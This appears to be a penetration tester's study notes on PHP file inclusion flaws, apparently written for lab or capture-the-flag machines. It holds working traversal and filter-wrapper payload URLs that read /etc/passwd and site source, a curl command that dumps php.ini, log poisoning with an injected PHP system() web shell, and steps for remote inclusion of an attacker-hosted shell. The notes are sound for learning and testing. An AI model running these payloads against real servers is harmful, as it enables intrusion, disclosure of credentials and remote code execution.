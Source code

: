 **Remote File Inclusion (RFI):** The file is loaded from a remote server (Best: You can write the code and the server will execute it). In php this is **disabled** by default (**allow_url_include**). 

**Local File Inclusion (LFI):** The sever loads a local file.
# Guides

1. [File Inclusion/Path traversal | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
2. [Comprehensive Guide on Local File Inclusion (LFI) - Hacking Articles](https://www.hackingarticles.in/comprehensive-guide-to-local-file-inclusion/)

Check the source of the website and the website fuzzing report for potential parameters which may be vulnerable.
# Local File Include

Local File Inclusion (LFI) is a vulnerability that allows an attacker to include files on the server through the web browser. This can lead to sensitive information disclosure, code execution, and other security issues. 

To exploit LFI, an attacker needs to find a vulnerable parameter in the application that includes files. This parameter can be a URL, a file path, or any other input that gets included in the server-side code. 

There are several techniques to exploit LFI, such as directory traversal, null byte injection, and using wrappers like php://input or data://. 

1. Just try the parameter (e.g. `book.php?bookNumber=/etc/password`) and see what happens
2. Supported wrappers, see [PHP: Supported Protocols and Wrappers - Manual](https://secure.php.net/manual/en/wrappers.php)
3. If files can be viewed
	1. If the log file is available, see [[#Log Poisoning]]
	2. Search for credentials, see [[Valuable Files]]
4. Potentially be able to get the source of the site using the wrappers, see [[#PHP Wrappers]]
5. 


## PHP Wrappers

### Website Source Retrieval

These return the Base64 of the site, see [[Base64]] to decode.

- `http://10.10.10.80/?op=php://filter/convert.base64-encode/resource=view`
- `http://10.10.10.80/?op=php://filter/convert.base64-encode/resource=upload`
- `http://10.10.10.80/?op=php://filter/convert.base64-encode/resource=index`

### Unzip File

[[Web Shells#ZIP Wrapper LFI]]
## LFI Bypass Filtering

See [[Web Application Firewall (WAF)]]

- Null byte: `http://10.10.10.80/?op=../../../etc/passwd%00&secretname=2f4823095649cab523452053417cded1dee9259e`
- Double encoding: `http://10.10.10.80/?op=%252e%252e%252fetc%252fpasswd&secretname=2f4823095649cab523452053417cded1dee9259e`
- Path truncation: `http://10.10.10.80/?op=../../../../[…]../../../../../etc/passwd&secretname=2f4823095649cab523452053417cded1dee9259e`
## LFI Shell

`curl -s 'http://192.168.120.85/classes/phpmailer/class.cs_phpmailer.php?classes_dir=php://filter/read=convert.base64-encode/resource=/etc/php5/apache2/php.ini%00%27%7C base64 -d 2>/dev/null`

## Log Poisoning

Log poisoning is a technique used to manipulate log files on a server by injecting malicious input. This can be used in combination with Local File Inclusion (LFI) vulnerabilities to escalate an attack. 

Effectively if you can view a log file using LFI, you can manipulate the logs by maybe inputting a username which is actually a PHP web shell, then navigating to the log file using LFI, which may run the shell.

### Walkthrough

1. [RCE via LFI Log Poisoning - The Death Potion | by Jerry Shah (Jerry) | Medium](https://shahjerry33.medium.com/rce-via-lfi-log-poisoning-the-death-potion-c0831cebc16d#:~:text=What%20is%20log%20poisoning%20%3F,input%20to%20the%20server%20log)

### Guide

1. Find the log file using LFI
2. Find the technology the log file is for, e.g. FTP
3. Generate a log message using that technology with a malicious entry, e.g. FTP username: `<?php system($_GET[‘commandInjection’]); ?>` 
4. Navigate to the log file using LFI
5. `_/var/log/vsftpd.log&commandInjection=ifconfig

### Log File Locations

1. `/var/log/auth.log`
2. `/var/log/vsftpd.log`

# Remote File Include

Remote File Inclusion (RFI) is a vulnerability similar to LFI, but instead of including local files, it includes files from a remote server. This can be particularly dangerous as it allows an attacker to execute code on the server by including a malicious file hosted on their own server.

To exploit RFI, an attacker needs to find a vulnerable parameter in the application that includes files from a remote server. This parameter can be a URL pointing to the remote file. 

1. Replace the parameter with the remote IP of your machine, e.g. `/blog/?lang=\\10.10.14.29\\test`
2. Host a Python webserver
3. Point the website at a [[Web Shells|Web Shell]] 

## SMB and Responder


